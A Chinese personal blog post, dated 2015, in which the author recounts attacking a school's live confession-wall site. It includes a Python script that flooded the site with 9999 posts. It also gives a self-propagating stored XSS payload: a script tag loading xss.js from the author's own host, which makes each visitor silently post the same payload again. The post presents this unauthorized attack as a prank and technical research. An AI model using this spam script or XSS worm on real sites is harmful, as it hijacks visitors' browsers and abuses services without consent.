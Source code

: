 ```yaml
---
layout: post
title: "XSS让每个人都帮我表白"
subtitle: "单生狗的碎碎念（无对象技术测试）"
date: 2015-02-06 09:22
comments: true
author: MewX
published: true
categories: [life, python]
---
```


最近觉得学校的表白墙很好玩，而且人气也挺不错。有表白排行之类的有趣功能，经常能看到人刷屏、刷排行之类的。

14号不就是情人节了嘛，最近肯定是表白人气最旺的时段了，妥妥地来凑个热闹。

但是光是自己表白没啥意思啊，比如说我看到系统挺渣，我就用python写了个脚本一直刷，刷了9999次对吧。（下面这段代码把action地址给隐去了 =。=）

    def tryPost( receiver, sender, msg):
        postData = 'save=1&book_title='+urllib.quote(receiver)+'&book_name='
                +urllib.quote(sender)+'&book_body='+urllib.quote(msg)
                +'&submit=%E5%8F%91%E5%B8%83';
        #print(postData);
        req = urllib2.Request(BaseURL,postData);
        req.add_header('Referer', BaseURL);
        urllib2.urlopen(req);
        return;

    for i in range(0,9999):
        tryPost('P^2','Anonymous','You know who.');

效果图如下，直接给刷了9999次。

<center><a href="{{ site.cdn }}imgs/201502/01-9999-loves.jpeg" target="_blank"><img src="{{ site.cdn }}imgs/201502/01-9999-loves.jpeg" style="max-width:100%;"/></a></center>

看代码的时候应该可以看到，这表单竟然提交了一个submit元素上去，真是用(sang)心(xin)良(bing)苦(kuang)啊，为后面XSS增加了难度呢！

----

下面来XSS。之前说了这个表白留言系统超级渣啊，没有验证码、没有XSS过滤呢。我这边可以插入任意html代码的。

现在我要做到的目标就是让每个访问这个页面的人帮我向target表白！

**这部分的技术难点：**

1. 嵌入XSS代码；
2. XSS代码长度限制在200以内；（测试发现数据库的varchar长度是200字节，html进行POST的时候会进行转义编码即“汉字”会变成“%XX%XX%XX”）
3. 因为一页可能会有多遍script载入，所以在载入多遍script的时候需要保证效果只有一次，不然就直接刷屏了，太没节操了；
4. POST返回值要无视掉，不然会接收到一段alert代码，影响用户体验；
5. 使用jQuery在网页顶部插入表白图片，这部分用纯JS的话很麻烦，默认只能appendChild添加在末尾；
6. 因为有一个元素叫submit，所以不能使用form.submit()，否则会触发object is not an method错误

----

**提交的XSS代码：**

    <script type="text/javascript" src="http://mewx.org/js/xss.js"></script>

上面这部分代码已经压缩到最短了，本来准备在前面添加一段图片的，结果直接就超长了，图片添加挪到xss.js里面了。

P.S. 刚刚push上来发现自己网页被挂上那个脚本了 \_(:3」∠)\_ 好吧。最后检查时少了个问号。。

**XSS.JS：**

    // 省略 jQuery 代码
    $(document).ready(function(){
        var obj = document.getElementById("LoveX");
        if(obj) return;

        $("body:first").prepend("<img id=\"LoveX\" src=\"http://www.dwz.cn/XXXXX\" style=\"width:350px;height:350px\"/>");
        //$(".LoveX").insertAfter("header");

        // Ajax
        var params = {save:1,book_title:'此处打码',book_name:'MewX',book_body:'<script type=\"text/javascript\" src=\"http://mewx.org/js/xss.js\"></script>',submit:'发布'};
        url = 'http://xxxxxxxxx.sinaapp.com/add_express.php';
        $.post(url,params,function(data){
            // ignore data
        });
    })

最终效果：如图，每个访问该页面的人都会帮我提交一份表白啦！~~

<center><a href="{{ site.cdn }}imgs/201502/02-XSS-express-love.jpeg" target="_blank"><img src="{{ site.cdn }}imgs/201502/02-XSS-express-love.jpeg" style="max-width:100%;"/></a></center>

不知到2月14号会有多少访问量呢？哈哈，刚刚看到有人和我的脚本对刷！！！

----

补：以上纯属闹剧，表白对象与我也毫无干系 \_(:з」∠)\_ 各位借此能了解一下XSS便好。以上恶意举动仅作技术研究。
